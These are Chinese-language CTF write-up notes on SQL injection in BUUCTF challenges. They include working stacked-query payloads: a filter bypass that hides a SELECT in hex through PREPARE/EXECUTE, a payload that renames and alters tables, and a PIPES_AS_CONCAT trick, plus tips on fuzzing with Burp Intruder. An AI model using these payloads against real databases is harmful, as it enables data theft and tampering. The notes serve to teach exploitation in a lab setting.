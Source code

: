 **#但是没有成功**



也可以编码逃逸,构造payload:

`select flag from '表名'`

`-1';SeT@a=0x73656C65637420666C61672066726F6D20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#`

prepare…from…是预处理语句，会进行编码转换。
execute用来执行由SQLPrepare创建的SQL语句。
SELECT可以在一条语句里对多个变量同时赋值,而SET只能一次对一个变量赋值。
0x就是把后面的编码格式转换成16进制编码格式
那么总体理解就是，使用SeT方法给变量a赋值，给a变量赋的值就是select查询1919810931114514表的所有内容语句编码后的值，execsql方法执行来自a变量的值，prepare…from方法将执行后的编码变换成字符串格式，execute方法调用并执行execsql方法。



1';rename table words to word2;rename table `1919810931114514` to words;ALTER TABLE words ADD id int(10) DEFAULT '12';ALTER TABLE  words CHANGE flag data VARCHAR(100);-- q

ALTER TABLE  words CHANGE flag data VARCHAR(100);

#修改flag属性名为data,可以显示flag



## buuctf easySQL

猜测源代码

`select $_GET['query'] || flag from flag`



payload:

`1;set sql_mode=PIPES_AS_CONCAT;select 1`

#sql_mode=pipes_as_concat可以让||变成连接符

或者

`*,1`

#sql语句就变成了select *,1||flag from Flag，



## sql Fuzz注入工具

在fuzz注入判断被过滤的东西时,手动fuzz过于麻烦

可以使用burp suite的**intruder**模块

- 抓包之后发送到intruder

- payload类型选择简单列表

- payload设置选择从文件加载

	#在github上下载了一个fuzzdb的文件夹,里面有一个txt文件
